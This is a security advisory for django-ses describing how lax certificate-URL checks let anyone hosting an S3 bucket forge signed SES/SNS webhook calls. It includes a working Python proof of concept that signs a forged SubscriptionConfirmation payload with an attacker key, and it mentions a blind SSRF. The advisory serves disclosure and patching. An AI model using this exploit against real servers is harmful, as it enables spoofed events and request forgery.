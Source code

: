 # Certificate URL: signature verification exposure

0. TL;DR:

If you were using the default setting or any `amazonaws.com` subdomain for `AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS`,
signature verification webhooks would have allowed someone hosting an arbitrary S3 bucket to send verified webhook
calls to your server.

`django-ses==3.5.0` addresses this by matching the `amazonaws.com` certificate URLs against a known regex, `SES_REGEX_CERT_URL`.

1. Overview

The django_ses library implements a mail backend for Django using AWS Simple Email Service.
The library exports the `SESEventWebhookView` class intended to receive signed requests from AWS
to handle email bounces, subscriptions, etc.
These requests are signed by AWS and are verified by django_ses, however the verification of this
signature was found to be flawed as it allowed users to specify arbitrary public certificates.

2. Description

The [`SESEventWebhookView`](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/views.py#L379)
view class implements a [`post` handler](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/views.py#L409)
which receives signed requests. By default (as [noted](https://github.com/django-ses/django-ses/tree/main#full-list-of-settings) in the README)
signature verification is enabled. Signature verification is [performed](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/views.py#L420)
by the [`verify_event_message`](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/utils.py#L252)
utility function which uses the `EventMessageVerifier.is_verified` method.

This method obtains the public certificate from a URL passed within the request
(https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/utils.py#L166-L189):

```py
    def _get_cert_url(self):
        """
        Get the signing certificate URL.
        Only accept urls that match the domains set in the
        AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS setting. Sub-domains
        are allowed. i.e. if amazonaws.com is in the trusted domains
        then sns.us-east-1.amazonaws.com will match.
        """
        cert_url = self._data.get("SigningCertURL")
        if not cert_url:
            logger.warning('No signing certificate URL: "%s"', cert_url)
            return None

        if not cert_url.startswith("https://"):
            logger.warning('Untrusted certificate URL: "%s"', cert_url)
            return None

        url_obj = urlparse(cert_url)
        for trusted_domain in settings.EVENT_CERT_DOMAINS:
            parts = trusted_domain.split(".")
            if url_obj.netloc.split(".")[-len(parts) :] == parts:
                return cert_url

        return None
```

Some validation is performed on the certificate URL to ensure it is from a trusted domain. By default, the trusted domains are
(https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/settings.py#L50-L61):

```py
EVENT_CERT_DOMAINS = getattr(
    settings,
    'AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS',
    getattr(
        settings,
        'AWS_SNS_BOUNCE_CERT_TRUSTED_DOMAINS',
        (
            'amazonaws.com',
            'amazon.com',
        )
    )
)
```

However, the validation of the certificate URL allows for arbitrary subdomains. Because anyone can host arbitrary files on a
subdomain of `amazonaws.com` (through hosting an AWS S3 bucket), it is possible to host an arbitrary public certificate which
gets validated and used to verify signatures.

3. Proof of Concept

To test the vulnerability, we can create a Django app and install the library:

```sh
django-admin startproject demo
cd demo
pip3 install django-ses[events]
```

Then, add the SESEventWebhookView view to the `urlpatterns` list in `urls.py`:

```py
from django.urls import path
from django_ses.views import SESEventWebhookView

urlpatterns = [
    path(r'ses/event-webhook/', SESEventWebhookView.as_view(), name='handle-event-webhook')
]
```

Run the server:

```py
python manage.py runserver
```

This runs the server on port 8000. Notice that if you send a POST request to `/ses/event-webhook`
it will fail with "Signature verification failed.":

```sh
curl -X POST http://localhost:8000/ses/event-webhook/ -d '{"Type":"SubscriptionConfirmation", "SubscribeURL": "https://example.com"}'
Signature verification failed.
```

The following Python script implements a proof of concept that signs an arbitrary payload using our attacker-controlled
private key. For convenience of testing, the certificate is available at

https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/publickey.cer

and the private key is available at

https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/private.key

```py
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.hazmat.primitives.asymmetric import utils
import json
import requests
from base64 import b64encode

# https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/utils.py#L191
def _get_bytes_to_sign(_data):
    """
    Creates the message used for signing SNS notifications.
    This is used to verify the bounce message when it is received.
    """

    # Depending on the message type the fields to add to the message
    # differ so we handle that here.
    msg_type = _data.get('Type')
    if msg_type == 'Notification':
        fields_to_sign = [
            'Message',
            'MessageId',
            'Subject',
            'Timestamp',
            'TopicArn',
            'Type',
        ]
    elif (msg_type == 'SubscriptionConfirmation' or
          msg_type == 'UnsubscribeConfirmation'):
        fields_to_sign = [
            'Message',
            'MessageId',
            'SubscribeURL',
            'Timestamp',
            'Token',
            'TopicArn',
            'Type',
        ]
    else:
        # Unrecognized type
        return None

    bytes_to_sign = []
    for field in fields_to_sign:
        field_value = _data.get(field)
        if not field_value:
            continue

        # Some notification types do not have all fields. Only add fields
        # with values.
        bytes_to_sign.append(f"{field}\n{field_value}\n")

    return "".join(bytes_to_sign).encode()

cert_url = 'https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/publickey.cer'
# privkey available here https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/private.key
privkey = serialization.load_pem_private_key(open('./private.key','rb').read(), password=None)
target_endpoint = 'http://localhost:8000/ses/event-webhook/'

payload = {
    'Type': 'SubscriptionConfirmation',
    'SubscribeURL': 'http://localhost:9999',
}

sign_bytes = _get_bytes_to_sign(payload)
chosen_hash = hashes.SHA1()
hasher = hashes.Hash(chosen_hash)
hasher.update(sign_bytes)
digest = hasher.finalize()
sig = privkey.sign(
    digest,
    padding.PKCS1v15(),
    utils.Prehashed(chosen_hash)
)
payload['SigningCertURL'] = cert_url
payload['Signature'] = b64encode(sig).decode()

r = requests.post(target_endpoint, json=payload)
print(r.status_code) # this is 200, which indicates the message was accepted
```

3. Impact

The impact may vary depending on the context of the application and how bounce events are
handled. Due to the fact that the library suggests that signatures are verified by default,
consumers may consider the data to be trusted and hence use it without appropriate validation.
At the very least, this issue allows a (blind) SSRF vulnerability through the `SubscriptionConfirmation`
event type, however I didn't note this having a very large impact on its own.

4. Credits

Joseph Surin, elttam

5. Recommendations

If you're not setting a value for `AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS`, upgrade to `v3.5.0` and re-test your webhooks to make sure the
signature verification still passes.

If you are setting a value for `AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS` and it contains `amazonaws.com`, set the full domain instead. This
is best practice even if your domain is not `amazonaws.com`, to restrict the possible security risk of other subdomains sending
verifiable webhook calls.

See `django-ses` [Releases](https://github.com/django-ses/django-ses/releases/tag/v3.5.0) for more details about the code changes.
